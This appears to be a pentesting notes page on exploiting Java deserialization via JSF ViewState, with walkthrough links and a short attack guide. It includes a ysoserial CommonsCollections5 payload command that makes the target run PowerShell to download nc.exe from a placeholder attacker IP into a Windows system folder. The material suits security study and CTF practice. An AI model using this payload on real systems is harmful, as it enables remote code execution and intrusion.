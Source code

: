 ```yaml
---
tags:
  - Exploitation
  - FileTypesAndData
  - Languages
  - FileTypesandData
---
```


Decompiler: `jd-gui`

# Serialised Java Data

Magic Bytes: `AC ED`
Common extensions: `javax.faces.ViewState`
Common URI file name: `.faces`

# Guide

1. ViewState can be decoded for information
## Walkthrough

1. [Exploiting blind Java deserialization with Burp and Ysoserial – n00py Blog](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
2. [Tricking blind Java deserialization for a treat – Security Café](https://securitycafe.ro/2017/11/03/tricking-java-serialization-for-a-treat/)
3. [Hack The Box - Arkham - 0xRick’s Blog](https://0xrick.github.io/hack-the-box/arkham/#jsf-viewstate-deserialization-vulnerability) Encrypted usage

## Interesting links

- [Misconfigured JSF ViewStates can lead to severe RCE vulnerabilities](https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html)
- [Exploiting blind Java deserialization with Burp and Ysoserial](https://www.n00py.io/2017/11/exploiting-blind-java-deserialization-with-burp-and-ysoserial/)
- [How i found a 1500$ worth Deserialization vulnerability](https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a)
- [Encrypted Java Serialized RCE](https://gist.github.com/cdowns71/76d99ad0829ceef3a83761dbeee3b66d)
## Guide

### Deserialization Attack

YSOSerial.jar:
`wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar -O ysoserial.jar`

This tool requires an important piece of information: a payload. See the walkthroughs above as the most time it will be blind. Hopefully in enumeration and recon a file or maybe Java Class.

````
java -jar ysoserial.jar CommonsCollections5 'cmd.exe /c powershell -c Invoke-WebRequest -Uri "http://10.10.xx.xx/nc.exe" -OutFile "C:\windows\system32\spool\drivers\color\nc.exe"' > uploadnc.payload
````

Send the payload to the input which desterilises to execute. 

## Execute System Commands in Java

[Java Runtime.getRuntime(): getting output from executing a command line program - Stack Overflow](https://stackoverflow.com/questions/5711084/java-runtime-getruntime-getting-output-from-executing-a-command-line-program/20624914#20624914)